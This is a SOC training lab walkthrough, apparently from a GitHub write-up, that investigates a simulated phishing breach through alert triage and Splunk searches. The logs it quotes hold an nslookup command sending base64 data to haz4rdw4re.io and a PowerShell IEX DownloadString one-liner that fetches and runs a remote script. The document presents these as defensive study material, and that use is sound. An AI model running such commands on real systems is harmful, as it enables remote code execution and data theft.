**Scenario Details**

**Description**  
Dive into the heat of a live phishing attack as it unfolds within the corporate network. In this high-pressure scenario, your role is to meticulously analyze and document each phase of the breach as it happens. Can you piece together the attack chain in real-time and prepare a comprehensive report on the malicious activities?

---

**Scenario Objectives**  
- Monitor and analyze real-time alerts as the attack unfolds.  
- Identify and document critical events such as PowerShell executions, reverse shell connections, and suspicious DNS requests.  
- Create detailed case reports based on your observations to help the team understand the full scope of the breach.

---

**Access the Alert Queue**

1. Navigate to the SOC Dashboard


2. Open the alert queue and review the real-time alerts generated by the system.


The Alert Queue is a workspace for SOC analysts to manage and investigate security alerts. It provides a streamlined way to assess the urgency of alerts, pick them up for investigation, and document findings.

---

**Key Components in the Alert Queue**

1. **Assigned Alerts Section**  
   - Displays alerts assigned to you for tracking and investigation.

2. **Alert List**  
   - Lists alerts needing action, including:
     - **ID:** Unique identifier (e.g., 1033, 1032).
     - **Alert Rule:** Description of what triggered the alert.
     - **Severity:** Medium (requires attention) or Low (can be deprioritized).
     - **Type:** Execution (process-related activity), Phishing (email-related activity), or Process (suspicious behavior).
     - **Date:** Timestamp of alert generation.
     - **Status:** Current state (e.g., Awaiting Action).
     - **Action Button:** Click to take ownership of an alert.

3. **Filters**  
   - Organize alerts by:
     - Severity: High, Medium, Low.
     - Type: Phishing, Execution, Process.
     - Status: Pending, Resolved, Under Investigation.

4. **Search Bar**  
   - Locate specific alerts using keywords, IDs, or rules.



---

**Identifying Critical Alerts**

- The alert queue displays multiple **High severity** alerts for **"Suspicious Parent-Child Relationship"**, classified as **Process type**.
- These alerts indicate potential malware activity, privilege escalation, or unauthorized access.


---

**Investigate Alerts**

1. **Take Ownership of Alerts**
   - Click the "Action" button to assign the alert to yourself.
   

   - Example: Assigned alert ID 1049 (High Severity, Process-related, "Suspicious Parent-Child Relationship").
   


2. **Analyze Alert ID 1049**
   - **Datasource:** Sysmon  
   - **Timestamp:** 28/12/2024 11:47:56.301  
   - **Event Code:** 1 (Process Creation)  
   - **Host Name:** win-3450  
   - **Process Name:** nslookup.exe  
   - **Parent Process Name:** powershell.exe  
   - **Command Line:**  
     ```
     "C:\Windows\system32\nslookup.exe" RmJjEyNGZiMTY1NjZlFQ==.haz4rdw4re.io
     ```
   - **Working Directory:** C:\Users\michael.ascot\downloads\
---

**Initial Observations**

- **PowerShell (Parent Process)**: Frequently exploited by attackers for executing scripts and downloading payloads.
- **nslookup.exe (Child Process)**: Used for DNS queries, but its execution in this context is unusual and likely malicious.
- **Encoded String in Command Line**: Needs decoding to uncover possible exfiltrated data.
- **Suspicious Working Directory**: Files originating from the Downloads folder suggest unauthorized activity.
  
  

---

**Investigate Further Using SIEM (Splunk)**

1. **Search for Related Events in Splunk:**

   index=* nslookup.exe
  
  

   - **Observations:**
     - Repeated execution of nslookup.exe.
     - Suspicious domain (haz4rdw4re.io).
     - Base64-encoded strings hinting at data exfiltration or Command and Control (C2) communication.
    
    

2. **Analyze Parent Process (PowerShell):**

   index=* process.parent.pid=3728
    
    

   - Confirmed multiple child processes initiated by PowerShell, indicating possible malicious automation.
    


3. **Investigate PowerShell Activity:**
   
   index=* powershell.exe
    

   - Found execution of a command downloading a suspicious script:
     
     IEX(New-Object System.Net.WebClient).DownloadString("http://malicious-url/script.ps1")
     
   - **Unusual Execution Pattern:** Attackers often leverage PowerShell for covert actions.

---

**Summary of Events**

- **PowerShell spawned multiple instances of nslookup.exe, likely for C2 communication.**
- **Each execution involved encoded data and a suspicious domain (haz4rdw4re.io).**
- **Execution originated from an ‘exfiltration’ directory, suggesting data theft.**
- **PowerShell executed a potentially malicious script, indicating a larger attack chain.**
- **Patterns suggest lateral movement, reconnaissance, or exfiltration.**
    
    


---

**Next Steps**

- **Decode Base64 Strings**: To analyze potential payloads or exfiltrated data.
- **Correlate Logs Across Systems**: Check endpoint logs for related events.
- **Identify Attacker Techniques**: Map findings to MITRE ATT&CK framework.
- **Contain and Mitigate**: Block malicious domains and isolate the affected host.

---

**Conclusion**

This investigation demonstrates how attackers use legitimate tools like PowerShell and nslookup.exe for malicious purposes. By analyzing real-time alerts and logs, SOC analysts can detect and mitigate threats before they escalate into a full-blown breach.

